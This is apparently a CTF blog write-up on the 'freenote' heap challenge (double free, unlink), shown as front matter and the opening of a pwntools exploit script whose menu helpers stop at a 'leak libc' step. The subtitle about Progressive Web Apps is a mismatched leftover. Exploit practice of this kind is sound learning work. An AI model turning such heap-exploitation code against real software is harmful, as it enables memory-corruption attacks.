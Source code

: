 ```yaml
---
layout: post
title: Freenote writeup -- Understand heap and double free
subtitle: The Next Generation Application Model For The Web - Progressive Web App
date: {}
author: Dafeng
header-img: img/post-bg-nextgen-web-pwa.jpg
header-mask: 0.3
catalog: true
tags:
  - CTF
  - Heap
  - PWN
  - unlink
published: true
---
```


## Exploit

```python

#!/usr/bin/env python
from pwn import *

context(arch = 'x86_64', os = 'linux', endian='little')
context.log_level = 'debug'
#elf = ELF('./freenote_x64')
p = process('./freenote_x64')
#p = remote('127.0.0.1',10001)
print proc.pidof(p)
raw_input('gdb attach')

def new_note(x):
    p.recvuntil("Your choice: ")
    p.send("2\n")
    p.recvuntil("Length of new note: ")
    p.send(str(len(x))+"\n")
    p.recvuntil("Enter your note: ")
    p.send(x)

def delete_note(x):
    p.recvuntil("Your choice: ")
    p.send("4\n")
    p.recvuntil("Note number: ")
    p.send(str(x)+"\n")

def list_note():
    p.recvuntil("Your choice: ")
    p.send("1\n")

def edit_note(x,y):
    p.recvuntil("Your choice: ")
    p.send("3\n")   
    p.recvuntil("Note number: ")
    p.send(str(x)+"\n")   
    p.recvuntil("Length of note: ")
    p.send(str(len(y))+"\n")   
    p.recvuntil("Enter your note: ")
    p.send(y)

####################leak libc#########################
```